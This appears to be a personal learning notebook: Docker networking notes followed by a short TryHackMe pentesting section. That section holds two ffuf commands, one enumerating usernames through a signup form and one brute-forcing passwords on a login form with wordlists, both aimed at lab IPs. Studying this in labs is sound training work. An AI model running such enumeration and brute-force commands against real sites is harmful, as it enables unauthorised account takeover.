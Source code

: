 # Today-I-Learnt

## TIL 05/06/2022

### Docker Network

* You can connect docker containers and services with each other as well as to non-docker workloads

* Docker is a software to build and run containers(_Containers are lightweight packages of your application code together with dependencies such as specific versions of programming language runtimes and libraries required to run your software services._) whereas Kuberentes is an orchestration tool i.e it is used to operate multiple containers at a large scale .

* Docker manipulates iptable rules for networking

* Docker also provides a system for scaling called __Docker Swarm__

* Docker network drivers (bridge, host, overlay, ipvlan, macvlan, none). You can also use third party plugins

* User-defined bridge networks are best when you need multiple containers to communicate on the same Docker host. [Default network](https://docs.docker.com/network/network-tutorial-standalone/)

* [Host networks](https://docs.docker.com/network/network-tutorial-host/) are best when the network stack should not be isolated from the Docker host, but you want other aspects of the container to be isolated.

* [Overlay networks](https://docs.docker.com/network/network-tutorial-overlay/) are best when you need containers running on different Docker hosts to communicate, or when multiple applications work together using swarm services.

* [Macvlan networks](https://docs.docker.com/network/network-tutorial-macvlan/) are best when you are migrating from a VM setup or need your containers to look like physical hosts on your network, each with a unique MAC address.

* Third-party network plugins allow you to integrate Docker with specialized network stacks.


### Linux Monitoring


### Tryhackme
#### Course 1. Jnr Pentester 
##### Chapter 1. Authentication Bypass
```bash
# Fuzzing a username
# Which ever field needs to be fuzzed should have a value set as 'FUZZ' 
# '-mr' is the flag used to slect what is the valid output we are looking for in the page
ffuf -w /usr/share/wordlists/SecLists/Usernames/Names/names.txt -X POST -d "username=FUZZ&email=x&password=x&cpassword=x" -H "Content-Type: application/x-www-form-urlencoded" -u http://MACHINE_IP/customers/signup -mr "username already exists" 

# Fuzzing password
# When we pass the file as values to the field we use '-w'
# -fc flag is used for status code we are looking for
ffuf -w valid_usernames.txt:W1,/usr/share/wordlists/SecLists/Passwords/Common-Credentials/10-million-password-list-top-100.txt:W2 -X POST -d "username=W1&password=W2" -H "Content-Type: application/x-www-form-urlencoded" -u http://10.10.228.119/customers/login -fc 200

```

## TIL 06/06/2022


## TIL 07/06/2022



## TIL 08/06/2022